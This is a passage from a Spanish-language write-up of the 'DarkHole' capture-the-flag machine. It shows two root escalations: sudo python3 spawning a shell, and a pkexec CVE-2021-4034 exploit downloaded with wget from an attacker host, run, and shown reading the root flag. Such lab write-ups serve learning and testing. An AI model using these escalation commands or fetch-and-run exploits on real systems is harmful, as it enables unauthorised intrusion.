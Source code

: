 Ya sabemos por el registro `.bash_history` que tenemos permiso como root para ejecutar python3, con lo cual hacernos root es bastante sencillo.

```bash
losy@darkhole:~$ which python3
/usr/bin/python3

losy@darkhole:~$ ls -l /usr/bin/python3
lrwxrwxrwx 1 root root 9 Mar 13  2020 /usr/bin/python3 -> python3.8

losy@darkhole:~$ sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
[sudo] password for losy:
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt  snap
# cat root.txt
DarkHole{'Legend'}
#
```

> Otra forma de escalar privilegios es aprovecharnos del binario **pkexec** con el permiso SUID activado.
{: .prompt-info }

Listamos los binarios `SUID` y vemos `pkexec`, el cual es vulnerable `CVE-2021-4034`.

Nos compartimos el archivo python, damos permiso de ejecución, lo ejecutamos y obtenemos acceso root.

```bash
jehad@darkhole:/tmp$ wget 10.11.12.10/CVE-2021-4034.py
--2025-02-08 17:05:19--  http://10.11.12.10/CVE-2021-4034.py
Connecting to 10.11.12.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3068 (3.0K) [text/x-python]
Saving to: ‘CVE-2021-4034.py’

CVE-2021-4034.py                      100%[======================================================================>]   3.00K  --.-KB/s    in 0.001s

2025-02-08 17:05:19 (4.69 MB/s) - ‘CVE-2021-4034.py’ saved [3068/3068]

jehad@darkhole:/tmp$ chmod +x CVE-2021-4034.py

jehad@darkhole:/tmp$ ./CVE-2021-4034.py
Do you want to choose a custom payload? y/n (n use default payload)
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7f0b73ade000 at 0x7f0b7331ab50>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# id
uid=0(root) gid=1001(jehad) groups=1001(jehad)
# cd /root
# ls
root.txt  snap
# cat root.txt
DarkHole{'Legend'}
#
```

Hope it helps!